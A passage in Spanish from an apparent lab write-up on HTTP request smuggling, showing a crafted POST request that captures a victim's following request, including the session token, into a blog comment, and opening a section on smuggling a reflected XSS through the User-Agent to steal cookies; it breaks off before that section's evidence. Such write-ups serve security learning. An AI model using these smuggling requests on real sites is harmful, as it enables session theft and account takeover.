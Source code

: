 La próxima petición que haga la víctima, se añadirá a lo último del prefijo, en este caso, la `c` del comentario. Por ejemplo, si la víctima hace un `GET / HTTP1.1` SIN HEADERS, la petición final con el prefijo será:

```http
POST /post/comment HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 912\r\n
Cookie: session=LYvaXAtruu3cVR6VqGQ3UAHVUr2oitHy\r\n
\r\n
csrf=20rWS9eJAnz4oagmCGNBBqJ67mG3wiZK&postId=2&name=ran&email=a%40gmail.com&website=&comment=cGET / HTTP1.1
```

De tal forma, que se añadirá un post en cuyo comentario se tendrá la cadena de caracteres `cGET / HTTP1.1`.

La idea es aprovecharse de esto para que la petición de la víctima se añada al comentario de la petición y podamos ver el token de sesión. 

Al enviar la petición de ataque:

![com2](images/comment2.png)

Comprobamos como la siguiente petición realizada, por la víctima, se ha añadido al final de la petición POST maliciosa. Concretamente, posterior al caracter `c` del comentario. Con eso sacamos el token de sesión del usuario y listo. 

### CL.TE multiCase - User-Agent Cookie Stealer  
  
>***Identify*** the UserAgent value is stored in the GET request loading the blog comment form, and stored in **User-Agent** hidden value. Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value that is then placed in a smuggled request.

Evidencia de esto:
